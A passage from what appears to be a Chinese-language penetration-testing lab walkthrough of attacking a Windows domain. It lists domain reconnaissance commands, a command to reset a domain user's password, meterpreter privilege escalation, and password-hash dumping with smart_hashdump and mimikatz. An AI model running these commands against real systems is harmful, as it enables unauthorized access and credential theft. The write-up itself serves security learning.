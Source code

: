 [![](https://p3.ssl.qhimg.com/t01a2063579e37c979c.png)](https://p3.ssl.qhimg.com/t01a2063579e37c979c.png)

此时我们便可以直接连接目标主机了

[![](https://p4.ssl.qhimg.com/t01abfebb2ef857deb5.png)](https://p4.ssl.qhimg.com/t01abfebb2ef857deb5.png)

下面我们就该去杀入域控了，杀入域之前我们先来做一些基础的信息收集，毕竟大佬说过渗透测试的本质是信息收集..

```
ipconfig /all    查询本机IP段，所在域等
net config Workstation    当前计算机名，全名，用户名，系统版本，工作站域，登陆域
net user    本机用户列表
net localhroup administrators    本机管理员[通常含有域用户]
net user /domain    查询域用户
net user 用户名 /domain    获取指定用户的账户信息
net user /domain b404 pass    修改域内用户密码，需要管理员权限
net group /domain    查询域里面的工作组
net group 组名 /domain    查询域中的某工作组
net group "domain admins" /domain    查询域管理员列表
net group "domain controllers" /domain    查看域控制器(如果有多台)
net time /domain    判断主域，主域服务器都做时间服务器
ipconfig /all    查询本机IP段，所在域等
```

经过一番信息收集，我们可以知道域控的地址为：192.168.52.138、域成员主机03地址：192.168.52.141

然后抓一下本地管理员的密码：

首先使用getsystem进行提权

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t019a51d86a1d56b5b1.png)

我们此时已经获取了system权限（实战中可能需要其他更复杂的方式进行提权）

然后抓一下hash

发现失败了

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0147b1760fce7d46d7.png)

然后我们用msf自带的模块进行hash抓取

```
meterpreter &gt; run post/windows/gather/smart_hashdump
```

发现已经获取了hash

[![](https://p5.ssl.qhimg.com/t01bff044cbbb3249b0.png)](https://p5.ssl.qhimg.com/t01bff044cbbb3249b0.png)

但是这样获取的hash不是很全面，我们再使用mimitakz进行抓取

```
meterpreter &gt; mimikatz_command -f samdump::hashes
```
